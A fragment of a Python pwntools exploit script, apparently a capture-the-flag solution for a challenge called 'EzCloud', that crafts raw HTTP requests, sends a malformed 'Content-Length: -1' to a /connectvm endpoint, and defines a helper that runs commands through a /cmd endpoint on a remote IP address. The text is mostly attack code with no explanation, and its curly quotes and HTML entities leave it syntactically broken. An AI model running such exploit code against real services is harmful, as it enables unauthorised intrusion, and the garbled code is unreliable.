     payload += “\r\n”

    io.send(payload)

    sleep(1)

    io.recvuntil(“&lt;/body&gt;&lt;/html&gt;\r\n”)

​

def vm_cmd(cmd, login_id=‘0’*8):

    cmd = quote(cmd.strip() + “\n”)

    payload =  “POST /cmd HTTP/1.1\r\n”

    payload += “Content-Length: `{``}`\r\n”.format(len(cmd))

    payload += “Content-Type: application/x-www-form-urlencoded\r\n”

    payload += “\r\n”

    payload += cmd

    io.send(payload)

    io.recvuntil(‘&lt;title&gt;Success&lt;/title&gt;\r\n’)

    io.recvuntil(‘&lt;p&gt;\r\n’)

    data = io.recvuntil(‘&lt;/p&gt;\r\n&lt;/body&gt;&lt;/html&gt;\r\n’, drop=True).strip()

    return b”\n”.join([line for line in data.splitlines() if line and not line.startswith(b”[“)])

​

# elf = ELF(“./EzCloud”, checksec = False)

#io = process(elf.path)

#io = remote(“172.17.0.2”, 1234)

io = remote(“47.94.234.66”, 37128)

​

payload =  “POST /connectvm HTTP/1.1\r\n”

payload += “Content-Length: -1\r\n”

payload += “\r\n”

io.send(payload)

io.recvuntil(“&lt;/body&gt;&lt;/html&gt;\r\n”)

​

# sleep(1)

payload =  “GET x HTTP/1.1\r\n”
